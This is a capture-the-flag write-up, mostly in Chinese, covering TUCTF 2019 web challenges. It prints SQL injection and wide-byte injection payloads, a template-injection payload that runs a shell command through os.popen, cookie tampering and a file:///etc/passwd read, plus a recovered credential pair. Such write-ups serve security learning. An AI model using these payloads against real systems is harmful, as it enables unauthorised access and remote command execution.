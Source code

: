 date: 2020-04-20
categories:
- 比赛
tags:
- wp
- ctf
title: tuctf2019
---
# tuctf2019

## web

### Router Where Art Thou?

 http://chal.tuctf.com:30006/0.html 

 http://chal.tuctf.com:30006/1.html

 http://chal.tuctf.com:30006/2.html  

` FIXME: need to use Page::includeStaticResource `

`2.html:603  hidden variables, we are going to set this to the session, bug fix 2157`

https://192.168.1.254/



....爆破密码获得flag

### Login to Access

当Referer不为http://chal.tuctf.com:30001/login.html时,存在sql注入

当Referer: http://chal.tuctf.com:30001/login.hmtl时sql 注入被过滤

对第一种情况sql注入得到

```python
#database:information_schema,challenge,mysql,performance_schema,sys 
#table:users
#columns:user,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
#user,password,USER : dave,hunter2,dave
```



利用得到的账号密码直接在第二步登陆无效,猜测第二步还要sql注入

- sql注入

``` python
dave'+or+1%23 x
dave"+or+1%23 x
dave")+or+1%23 x
dave')+or+1%23 x
\转义'或"来逃逸失败


```

宽字节注入:

```python
#username=%2bsleep(10)&password=%bf%5c" x
#username=%2bsleep(10)&password=%bf%5c' x
#username=%bf%5c"&password=%2bsleep(10) x
#username=%bf%5c'&password=%2bsleep(10) x
```







sql注入点时username还是password

是单引号还是双引号闭合

过滤了哪些字符，转义了哪些字符

We then looked at the challenge’s description again and realized that there might be backup of file somewhere. We then tried to get the **login.php.bak**.

![img](https://khroot.com/wp-content/uploads/2019/11/image-201.png)

Surprise, there really is a backup file there. Let’s see what is inside.

![img](https://khroot.com/wp-content/uploads/2019/11/image-202-1024x385.png)

We found the flag, and it is `TUCTF{b4ckup5_0f_php?_1t5_m0r3_c0mm0n_th4n_y0u_th1nk}`

### The Droid You're  Looking For

看到droid想到robots.txt,直接访问提示没有权限

因为robots.txt是给爬虫看的,所以去百度了一个google爬虫的user-agent:

```
Mozilla/5.0 (Linux; Android 6.0.1; Nexus 5X Build/MMB29P) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2272.96 Mobile Safari/537.36 (compatible; Googlebot/2.1;
```

robots.txt

```
User-agent: *
Disallow: googleagentflagfoundhere.html
```

TUCTF{463nt_6006l3_r3p0rt1n6_4_r0b0t}



### And Now, For Something Completely Different

```python
Traceback (most recent call last):
  File "/usr/local/lib/python2.7/dist-packages/tornado/web.py", line 1509, in _execute
    result = method(*self.path_args, **self.path_kwargs)
  File "/usr/src/app/class_website.py", line 87, in post
    if len(name) == 0 or len(phone_num) == 0 or len(email) == 0 or len(passwd2) == 0 or passw != passw2:
NameError: global name 'passwd2' is not defined
```

在网页中发现

```html
<!-- TODO: add /welcome/test -->
```

打开只有welcome test <==> /welcome/test

猜测是ssti


```
{{__import__('os').popen('cat flag.txt').read()}}
```

 TUCTF{4lw4y5_60_5h0pp1n6_f0r_fl465} 



### Cute Animals Company

修改cookie获得登陆权限

sqlmap得到密码

file:///etc/passwd获得flag???

http访问都不行的呀


